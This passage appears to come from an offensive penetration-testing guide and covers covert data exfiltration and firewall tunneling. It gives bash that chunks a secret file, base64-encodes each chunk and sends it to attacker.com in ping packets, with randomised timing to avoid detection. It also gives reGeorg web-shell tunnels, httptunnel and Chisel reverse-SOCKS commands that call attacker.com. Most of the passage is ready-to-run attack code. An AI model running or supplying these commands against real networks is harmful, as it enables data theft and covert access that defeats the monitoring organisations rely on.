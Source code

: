 ```bash
EOF

# ICMP data exfiltration
# Split file into ICMP packets
split -b 1024 secret_file.txt chunk_
for chunk in chunk_*; do
    data=$(base64 -w 0 "$chunk")
    ping -c 1 -p "$data" attacker.com
    sleep 2
done

# ICMP tunneling detection evasion
# Vary packet timing
ping -i $(echo "scale=2; $RANDOM/32767*5" | bc) attacker.com

# Use different ICMP types
# Type 8: Echo Request (standard ping)
# Type 13: Timestamp Request
# Type 17: Address Mask Request

# Why ICMP tunneling is valuable:
# - Uses ubiquitous network protocol
# - Appears as legitimate network diagnostics
# - Works through most firewalls
# - Low detection probability
# - Suitable for covert communications
```

### **HTTP/HTTPS Tunneling**

**What HTTP/HTTPS tunneling involves:** Encapsulating other protocols within HTTP/HTTPS traffic to bypass firewall restrictions and content filtering.

**Why HTTP tunneling is effective:** HTTP/HTTPS traffic is universally allowed, appears legitimate, and can work through corporate proxies.

```bash
# HTTP tunneling tools and techniques

# reGeorg - HTTP tunnel through web shells
# Upload reGeorg web shell (PHP, ASP, ASPX, JSP)
# Python client connects through web shell
python reGeorgSocksProxy.py -p 1080 -u http://target.com/tunnel.php

# Neo-reGeorg - Advanced version of reGeorg
python neoreg.py -k password -u http://target.com/tunnel.php

# httptunnel - Classic HTTP tunneling tool
# Server setup
sudo httptunnel -s -P 80 -p 8080

# Client setup
httptunnel -c -P 3128 -p 8080 attacker.com

# Chisel over HTTP (covered earlier)
# Particularly effective for HTTP-based tunneling
./chisel server --port 80 --reverse
./chisel client attacker.com:80 R:1080:socks

# Custom HTTP tunneling with curl
# POST data through HTTP tunnel
curl -X POST -d "command=whoami" http://target.com/tunnel.php

# HTTP CONNECT method tunneling
```